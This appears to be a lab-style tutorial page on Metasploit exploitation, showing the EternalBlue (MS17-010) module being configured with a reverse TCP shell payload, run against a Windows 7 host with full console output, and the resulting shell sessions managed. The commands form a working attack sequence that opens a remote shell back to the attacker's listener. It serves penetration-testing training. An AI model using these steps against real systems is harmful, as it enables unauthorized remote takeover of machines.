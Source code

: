 ```yaml
---
icon: file-lines
---
```


# exploiting

You can search exploits using the `search` command, obtain more information about the exploit using the `info` command, and launch the exploit using `exploit`. While the process itself is simple, remember that a successful outcome depends on a thorough understanding of services running on the target system.\
\
Most of the exploits will have a preset default payload. However, you can always use the `show payloads` command to list other commands you can use with that specific exploit.

{% code title="Available payloads" %}
```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads 

Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   generic/custom                                               manual  No     Custom Payload
   1   generic/shell_bind_tcp                                       manual  No     Generic Command Shell, Bind TCP Inline
   2   generic/shell_reverse_tcp                                    manual  No     Generic Command Shell, Reverse TCP Inline
   3   windows/x64/exec                                             manual  No     Windows x64 Execute Command
   4   windows/x64/loadlibrary                                      manual  No     Windows x64 LoadLibrary Path
   5   windows/x64/messagebox                                       manual  No     Windows MessageBox x64
   6   windows/x64/meterpreter/bind_ipv6_tcp                        manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager
   7   windows/x64/meterpreter/bind_ipv6_tcp_uuid                   manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager with UUID Support
   8   windows/x64/meterpreter/bind_named_pipe                      manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Bind Named Pipe Stager
   9   windows/x64/meterpreter/bind_tcp                             manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Bind TCP Stager
   10  windows/x64/meterpreter/bind_tcp_rc4                         manual  No     Windows Meterpreter (Reflective Injection x64), Bind TCP Stager (RC4 Stage Encryption, Metasm)
```
{% endcode %}

Once you have decided on the payload, you can use the `set payload` command to make your choice.

{% code title="" %}
```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 2
payload => generic/shell_reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options 

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >

```
{% endcode %}

Note that choosing a working payload could become a trial and error process due to environmental or OS restrictions such as firewall rules, anti-virus, file writing, or the program performing the payload execution isn't available (eg. payload/python/shell\_reverse\_tcp).

Some payloads will open new parameters that you may need to set, running the `show options` command once more can show these. As you can see in the above example, a reverse payload will at least require you to set the `LHOST` option.

Setting the LHOST value and running the exploit

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.10.186.44
lhost => 10.10.186.44
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit 

[*] Started reverse TCP handler on 10.10.186.44:4444 
[*] 10.10.12.229:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.12.229:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.12.229:445      - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.12.229:445 - Connecting to target for exploitation.
[+] 10.10.12.229:445 - Connection established for exploitation.
[+] 10.10.12.229:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.12.229:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.12.229:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.12.229:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.12.229:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.12.229:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.12.229:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.12.229:445 - Sending all but last fragment of exploit packet
[*] 10.10.12.229:445 - Starting non-paged pool grooming
[+] 10.10.12.229:445 - Sending SMBv2 buffers
[+] 10.10.12.229:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.12.229:445 - Sending final SMBv2 buffers.
[*] 10.10.12.229:445 - Sending last fragment of exploit packet!
[*] 10.10.12.229:445 - Receiving response from exploit packet
[+] 10.10.12.229:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.12.229:445 - Sending egg to corrupted connection.
[*] 10.10.12.229:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.186.44:4444 -> 10.10.12.229:49366) at 2021-08-20 04:51:19 +0100
C:\Windows\system32>
```

Once a session is opened, you can background it using `CTRL+Z` or abort it using `CTRL+C`. Backgrounding a session will be useful when working on more than one target simultaneously or on the same target with a different exploit and/or shell.

{% code title="Backgrounding the session" %}
```shell-session
C:\Windows\system32>^Z
Background session 1? [y/N]  y
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
  1         shell x64/windows  Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  10.10.186.44:4444 -> 10.10.12.229:49366 (10.10.12.229)

msf6 exploit(windows/smb/ms17_010_eternalblue) >
```
{% endcode %}

### Working with sessions

The `sessions` command will list all active sessions. The `sessions` command supports a number of options that will help you manage sessions better.

Sessions help menu

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -h
Usage: sessions [options] or sessions [id]

Active session manipulation and interaction.

OPTIONS:

    -C   Run a Meterpreter Command on the session given with -i, or all
    -K        Terminate all sessions
    -S   Row search filter.
    -c   Run a command on the session given with -i, or all
    -d        List all inactive sessions
    -h        Help banner
    -i   Interact with the supplied session ID
    -k   Terminate sessions by session ID and/or range
    -l        List all active sessions
    -n   Name or rename a session by ID
    -q        Quiet mode
    -s   Run a script or module on the session given with -i, or all
    -t   Set a response timeout (default: 15)
    -u   Upgrade a shell to a meterpreter session on many platforms
    -v        List all active sessions in verbose mode
    -x        Show extended information in the session table

Many options allow specifying session ranges using commas and dashes.
For example:  sessions -s checkvm -i 1,3-5  or  sessions -k 1-2,5,6

msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

You can interact with any existing session using the `sessions -i` command followed by the session ID.

{% code title="" %}
```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions 

Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
  1         shell x64/windows  Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  10.10.186.44:4444 -> 10.10.12.229:49366 (10.10.12.229)

msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 1
[*] Starting interaction with 1...

C:\Windows\system32>
```
{% endcode %}
